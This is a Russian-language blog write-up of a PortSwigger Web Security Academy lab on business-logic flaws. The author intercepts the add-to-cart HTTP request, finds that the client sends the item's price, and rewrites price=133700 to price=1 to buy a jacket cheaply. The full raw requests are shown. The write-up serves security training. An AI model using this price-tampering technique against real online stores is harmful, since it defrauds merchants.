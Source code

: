```yaml
---
title: "Excessive trust in client-side controls"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls"
classes: wide
---
```


Для решения необходимо купить `Lightweight l33t leather jacket`. Для входа в учетную запись есть креды `wiener`:`peter`.

```
https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
```

# Solution

Как всегда нужно осмотреться. Залогинюсь в личный кабинет. На балансе даже есть 100$. Попробую что-то купить. У нашей мечты `productid=1`. Думаю, что это может пригодиться.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/1.png){: height="200" .align-center}

Нужно войти в аккаунт. Креды я дам. Нужно купить жилет. Денег я не дам.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/2.png){: height="200" .align-center}

Печаль(

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/3.png){: height="200" .align-center}

Попробую купить что-то подешевле. Вот такую штуку купить получилось. 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/4.png){: height="200" .align-center}

Но запрос на покупку мне ничего не сказал. 

```http
POST /cart/checkout HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers

csrf=eBZT5QduV47JhZVmKdgk33wFaupkZBdi
```

В истории запросов я нашел вот это:

```http
POST /cart HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=133700
```

Не знаю зачем, но в запросе добавления в корзину передается цена. А мне и не сложно потестить:

```http
POST /cart HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=1
```

Меня устраивает такая цена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IIMG_blv/IMG_excessive-trust-in-client-side-controls/5.png){: height="200" .align-center}

Решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/6.png){: height="200" .align-center}